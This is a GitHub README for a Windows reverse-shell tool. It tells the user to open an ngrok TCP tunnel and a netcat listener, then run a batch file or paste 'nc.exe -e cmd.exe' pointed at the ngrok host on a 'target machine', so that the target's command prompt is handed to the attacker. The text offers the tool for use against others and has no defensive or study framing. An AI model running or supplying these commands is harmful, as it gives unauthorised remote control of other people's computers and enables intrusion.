 # Simple-Reverse-Shell-Windows
Simple reverse shell Windows CMD with Netcat and Ngrok

# How To Use
  For example:
  
        On Remote Machine:
  1. run "ngrok tcp 6969"
  2. run netcat "nc -lvnp 6969"
  
        On target machine Windows:
  1. edit RShell.bat and put your ngrok ip and port, should be like this "....\\nc.exe -e cmd.exe 0.tcp.ngrok.io 27384"
  2. Then run RShell.bat on your target machine. 


     OR YOU CAN JUST COPY THE COMMAND AND PASTE ON CMD/POWERSHELL :)
     
